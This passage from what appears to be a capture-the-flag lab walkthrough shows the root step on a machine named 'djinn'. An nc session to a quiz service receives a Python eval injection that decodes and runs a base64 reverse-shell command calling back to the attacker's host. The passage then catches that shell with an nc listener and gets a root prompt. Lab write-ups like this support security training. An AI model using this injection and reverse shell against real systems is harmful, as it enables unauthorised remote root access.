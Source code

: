 root\@lifesfun:\~\# nc -nv 192.168.211.145 1337

(UNKNOWN) [192.168.211.145] 1337 (?) open

\___\_ \____\_ \_

/ \___\| \_\_ \_ \_ \_\_ \__\_ \__\_ \|\_ \_(_)\_ \_\_ \__\_ \__\_

\| \| \_ / \_\` \| '\_ \` \_ \\ / \_ \\ \| \| \| \| '\_ \` \_ \\ / \_ \\

\| \|_\| \| (_\| \| \| \| \| \| \| \__/ \| \| \| \| \| \| \| \| \| \__/

\\____\|\\__,_\|_\| \|_\| \|_\|\\___\| \|_\| \|_\|_\| \|_\| \|_\|\\___\|

Let's see how good you are with simple maths

Answer my questions 1000 times and I'll give you your gift.

(6, '+', 9)

\> eval('__import__("os").system("echo
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxMS4xNDYvNDQzIDA+JjEK \| base64 -d \|
bash")')

### Catching Reverse Shell

lifesfun:\~\# nc -nvlp 443

listening on [any] 443 ...

connect to [192.168.211.146] from (UNKNOWN) [192.168.211.145] 46628

bash: cannot set terminal process group (20312): Inappropriate ioctl for device

bash: no job control in this shell

root\@djinn:/\# whoami

whoami

root

### Root Flag

root\@djinn:/\# cd /root

cd /root

root\@djinn:/root\# ls

ls

lago

proof.sh

root\@djinn:/root\# bash proof.sh

bash proof.sh

TERM environment variable not set.

\_ \_ \_ \_ \_
